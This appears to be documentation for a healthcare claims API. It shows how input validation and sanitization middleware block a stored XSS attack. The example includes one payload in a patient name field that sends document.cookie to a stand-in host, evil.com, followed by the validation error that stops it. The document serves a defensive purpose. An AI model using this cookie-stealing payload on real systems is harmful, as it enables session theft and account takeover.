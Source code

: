 **Benefits:**
- XSS attacks automatically sanitized
- Type safety enforced (strings, numbers, dates)
- Healthcare codes validated (CPT must be 5 digits, ICD-10 format checked)
- Length limits prevent buffer overflow
- Clear error messages guide users to fix issues
- Business logic constraints enforced at API level

---

### Real-World Use Case Example

**Scenario:** A malicious provider staff member attempts to submit a fraudulent claim with inflated amounts and invalid codes to game the system.

**Attack Vector 1: XSS in Patient Name**
```javascript
// Malicious input
POST /api/v1/claims
{
  "patient": {
    "firstName": "<script>document.location='http://evil.com/steal?c='+document.cookie</script>",
    "lastName": "Smith",
    ...
  }
}
```

**Before Phase 1 (XSS stored):**
```javascript
// Stored in database as-is
// When payer views claim details, script executes in their browser
// Session cookies stolen, attacker gains access to payer account
```

**After Phase 1 (Attack blocked):**
```javascript
// Global sanitization middleware strips script tags
// Before validation: firstName = "<script>...</script>"
// After sanitization: firstName = "" (empty)
// Validation fails: "firstName is required"

// Response:
{
  "error": {
    "code": "VALIDATION_ERROR",
    "message": "Invalid input data",
    "details": {
      "patient.firstName": "\"firstName\" is not allowed to be empty"
    }
  }
}
```
